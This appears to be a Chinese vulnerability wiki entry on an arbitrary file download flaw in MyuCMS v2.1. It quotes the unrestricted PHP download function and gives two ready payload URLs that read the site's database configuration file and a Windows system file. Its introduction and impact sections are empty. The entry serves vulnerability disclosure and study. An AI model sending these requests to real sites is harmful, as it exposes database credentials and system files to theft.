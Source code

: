 MyuCMS v2.1 前台任意文件下载
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

既然是文件下载，先在整个项目中搜索下 **download**
关键字，尝试看看能不能直接定位到关键代码。

通过搜索定位到 **bbs** 模块下的 **Index** 控制器的 **download** 方法。

[![img](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1前台任意文件下载/media/rId24.jpg)](https://pic.downk.cc/item/5e4266e52fb38b8c3c9e7e3d.jpg)

**download** 方法接受三个参数，这三个参数我们是完全可控的，单从
**download** 这个方法来看，无任何参数内容限制，直接将 **\$url** 和
**\$name** 两个参数传递给了 **Http** 类的 **download** 方法来执行下载。

若 **Http-\>download()**
方法中还未对参数内容进行限制，便会造成任意文件下载漏洞。

接下来，我们跟进 **Http-\>download()** 方法。

    static public function download ($filename, $showname='',$content='',$expire=180) {
            if(is_file($filename)) { //判断 $filename 是否为文件
                $length = filesize($filename); // 获取 $filename 的文件大小
            }elseif($content != '') {
                $length = strlen($content);
            }else {
                throw_exception($filename.L('下载文件不存在！')); // 若文件不存在抛出异常
            }
            if(empty($showname)) {
                $showname = $filename; // $showname 为下载后文件的名称。若未设置则与被下载文件同名
            }
            $showname = basename($showname); //获取路径中的文件名部分
            if(!empty($filename)) {
                $type = mime_content_type($filename); //获取文件的MIME类型
            }else{
                $type    =   "application/octet-stream";
            }
            //发送Http Header信息 开始下载
            header("Pragma: public");
            header("Cache-control: max-age=".$expire);
            //header('Cache-Control: no-store, no-cache, must-revalidate');
            header("Expires: " . gmdate("D, d M Y H:i:s",time()+$expire) . "GMT");
            header("Last-Modified: " . gmdate("D, d M Y H:i:s",time()) . "GMT");
            header("Content-Disposition: attachment; filename=".$showname);
            header("Content-Length: ".$length);
            header("Content-type: ".$type);
            header('Content-Encoding: none');
            header("Content-Transfer-Encoding: binary" );
            if($content == '' ) {
                readfile($filename); // 读取文件内容并输出，从而实现下载
            }else {
                echo($content);
            }
            exit();
        }

由如上代码我们可以看出，**Http-\>download()**
方法中同样**未对传入的参数进行内容限制**，只实现了下载的业务逻辑。

此处任意文件下载，结合 phar
反序列化，还可以造成任意文件删除和任意文件写入（仅linux下）。

### Payload

    Payload: http://www.0-sec.org/bbs/index/download?url=application/database.php&name=&local=1

    Payload: http://www.0-sec.org/bbs/index/download?url=c:/windows/win.ini&name=&local=1

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
